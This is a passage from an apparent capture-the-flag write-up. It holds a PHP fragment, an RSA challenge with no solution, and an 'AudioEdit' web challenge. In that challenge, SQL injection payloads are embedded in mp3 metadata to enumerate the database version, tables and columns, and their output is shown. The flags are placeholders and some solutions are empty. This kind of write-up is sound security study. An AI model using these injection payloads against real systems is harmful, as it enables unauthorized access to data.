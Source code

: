 ```php
            }
        }
    }
    if(!$logged_in){
        echo("<h1>You failed!</h1>");
    }
?>
```

From the hint it would seem we do not need to pass all the checks, but rather get
the program to output the `$flag` variable for us.

**Flag**  
```
flag
```

## Programming 200: Qset3
**Challenge**  
Calculate an RSA private key `107.170.122.6 7773`

**Solution**  

**Flag**  
```
flag
```

## Web Exploitation 200: AudioEdit
**Challenge**  
I made a cool site to edit audio files. [Can you exploit it?](http://107.170.122.6/audioedit/)

**Solution**  
The website lets you upload mp3 files and then displays some metadata and plays it for you.

It has to be a valid mp3 file

We try if we can put SQL injection in the exifdata and indeed we can: (exiftool doesn't do exifdata updates for mp3 so we used easytag)

```
foo', (SELECT VERSION())) -- -
> Author: foo
> Title: 5.5.49-0ubuntu0.14.04.1

foo', (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())) -- -
> Author: foo
> Title: audioedit

foo', (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='audioedit')) -- -
> Author: foo
> Title: id,file,author,title

foo', (SELECT GROUP_CONCAT(CONCAT(id, ':', file, ':' , author, ':' , title )) FROM audioedit)) -- -
> error inserting into database
```
